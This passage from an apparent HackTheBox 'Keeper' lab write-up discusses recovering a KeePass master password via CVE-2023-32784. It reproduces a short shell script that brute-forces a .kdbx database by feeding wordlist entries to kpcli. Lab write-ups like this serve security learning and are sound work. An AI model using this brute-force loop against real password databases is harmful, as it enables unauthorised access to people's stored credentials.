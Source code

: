```
As a reminder, the first character cannot be found in the dump, and for the second the script will only give you a few possibilities, in any case we recommend you to run the bruteforce on 2 chars with the script below
```
![](https://github.com/popyue/HackTheBox/blob/main/machine/Keeper/KeeperImage/18.png)
### BruteForce Script From [GITHUB](https://github.com/4m4Sec/CVE-2023-32784)
```
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2
```
- But I didn't use the script to bruteforce password.
- Instead, I just think all the possibility results are similar to the user name(Inorgaard). 